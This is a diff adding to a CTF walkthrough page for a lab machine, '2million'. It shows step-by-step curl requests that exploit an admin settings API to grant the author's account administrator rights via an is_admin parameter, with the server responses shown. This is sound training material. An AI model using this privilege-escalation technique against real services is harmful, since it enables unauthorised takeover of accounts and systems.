

Before and after one commit to L3B0W5K1/ctf-walkthroughs, a Markdown page: posts/2million.md, the part around the change. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/posts/2million.md
+++ b/posts/2million.md
@@ -109,3 +109,69 @@ curl 2million.htb/api/v1 --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" | jq
   }
 }
 ```
+
+Here we can check if our own account is set as admin with curl, generate VPN, and update user settings. We are not admin as expected, but that can change with a call to **/api/v1/admin/settings/update**.
+
+```
+curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" | jq
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100    53    0    53    0     0    425      0 --:--:-- --:--:-- --:--:--   427
+{
+  "status": "danger",
+  "message": "Invalid content type."
+}
+```
+
+Missing content type we add it:
+
+```
+curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" | jq
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100    56    0    56    0     0    436      0 --:--:-- --:--:-- --:--:--   437
+{
+  "status": "danger",
+  "message": "Missing parameter: email"
+}
+```
+
+Another clue, lets add email:
+
+```
+(base) simonstrombackolofsson@Simons-Air HTB % curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" --data  '{"email":"test@test.test"}' | jq
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100    85    0    59  100    26    488    215 --:--:-- --:--:-- --:--:--   708
+{
+  "status": "danger",
+  "message": "Missing parameter: is_admin"
+}
+```
+
+Again...
+
+```
+curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" --data  '{"email":"test@test.test","is_admin":true}' | jq
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100   118    0    76  100    42    628    347 --:--:-- --:--:-- --:--:--   975
+{
+  "status": "danger",
+  "message": "Variable is_admin needs to be either 0 or 1."
+}
+```
+Such a very generous api! Thank you for this very fine information!
+
+```
+curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" --data  '{"email":"test@test.test","is_admin":1}' | jq
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100    83    0    44  100    39    339    301 --:--:-- --:--:-- --:--:--   643
+{
+  "id": 18,
+  "username": "testtest",
+  "is_admin": 1
+}
+```
+Finally!
````
